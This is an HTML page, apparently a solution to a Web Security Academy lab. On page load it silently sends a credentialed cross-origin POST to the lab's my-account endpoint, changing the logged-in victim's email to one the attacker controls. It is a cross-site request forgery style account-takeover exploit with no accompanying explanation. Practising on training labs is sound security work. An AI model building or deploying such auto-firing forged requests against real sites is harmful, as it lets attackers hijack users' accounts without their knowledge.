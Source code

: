 <!DOCTYPE html>
<html lang="fa">
    <source>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>HTTP Request</title>
</head>
<body>
    <h1> XMLHttpRequest </h1>
   <!--  <button onclick="sendRequest()">ارسال درخواست</button>
    <p id="result"></p> -->

<script>
    function runcs() {

let xhtp = new XMLHttpRequest();
xhtp.onreadystatechange=function(){

    if(this.readyState==4 && this.status==200){
console.log('succsess change')

    }
};

xhtp.open('POST','https://0aa4001b042d1ecf80a2354b002a0001.web-security-academy.net/my-account?id=wiener',true);
xhtp.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
xhtp.withCredentials=true;
xhtp.send("Email=yasin1234h@gmail.com");
    }
window.onload=function()
{
    runcs();
};


</script>



    <script src="script.js"></script>

</body>
</html>

